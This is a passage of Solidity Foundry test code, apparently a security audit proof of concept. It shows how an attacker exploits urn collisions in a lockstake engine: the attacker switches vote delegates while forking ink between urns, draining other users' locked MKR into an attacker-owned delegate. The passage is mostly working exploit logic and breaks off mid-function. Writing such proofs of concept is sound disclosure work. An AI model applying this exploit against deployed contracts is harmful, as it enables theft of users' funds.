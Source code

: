 ```solidity

        // Ensure LSE/VD has enough funds
        vm.startPrank(users[0]); 
        deal(address(mkr), users[0], mkrAmount * 10);
        engine.lock(engine.getUrn(users[0], 0), mkrAmount * 10, 0);
        _changeBlockNumberForChief();

        vm.startPrank(attacker);

        // Ensure urn1 has mkrAmount, urn2 has 0
        _assertEqInk({inkUrn1: mkrAmount, inkUrn2: 0});

        engine.selectVoteDelegate(eoaUrn2, voteDelegate);

        // While there are funds on LSE/VD
        for (uint i; i < 5; i++) {
            // Select attackerVD from urn1, move ink to eoaUrn2
            engine.selectVoteDelegate(eoaUrn, attackersVD);
            dss.vat.fork(ilk, eoaUrn, eoaUrn2, int(mkrAmount), 0);
            // Select victim VD while having 0 ink, so no MKR is transferred
            engine.selectVoteDelegate(eoaUrn, voteDelegate);
            _assertEqInk({inkUrn1: 0, inkUrn2: mkrAmount});

            // Select attackerVD from urn2, move ink to eoaUrn1
            engine.selectVoteDelegate(eoaUrn2, attackersVD);
            dss.vat.fork(ilk, eoaUrn2, eoaUrn, int(mkrAmount), 0);
            engine.selectVoteDelegate(eoaUrn2, voteDelegate);
            _assertEqInk({inkUrn1: mkrAmount, inkUrn2: 0});

            console.log("attackersVD balance: %e", ChiefLike(chief).deposits(attackersVD));
        }

        // Note: attacker only used 1 mkrAmount.
        assertEq(mkrAmount * 10, ChiefLike(chief).deposits(attackersVD));
    }

    function testAttack7SeveralLsUrnCollisionsStealFromLSE() external {
        _prepareSecondUrnCollision();

        // VD with the attacker as the owner
        vm.startPrank(attacker);
        address attackersVD = voteDelegateFactory.create();

        // Ensure LSE/VD has enough funds
        vm.startPrank(users[0]); 
        engine.selectVoteDelegate(engine.getUrn(users[0], 0), address(0));
        deal(address(mkr), users[0], mkrAmount * 10);
        engine.lock(engine.getUrn(users[0], 0), mkrAmount * 10, 0);
        _changeBlockNumberForChief();

        vm.startPrank(attacker);

        // Ensure urn1 has mkrAmount, urn2 has 0
        _assertEqInk({inkUrn1: mkrAmount, inkUrn2: 0});

        // While there are funds on LSE/VD
        for (uint i; i < 5; i++) {
            // Select attackerVD from urn1, move ink to eoaUrn2
            engine.selectVoteDelegate(eoaUrn, attackersVD);
            dss.vat.fork(ilk, eoaUrn, eoaUrn2, int(mkrAmount), 0);
            engine.selectVoteDelegate(eoaUrn, address(0));
            _assertEqInk({inkUrn1: 0, inkUrn2: mkrAmount});

```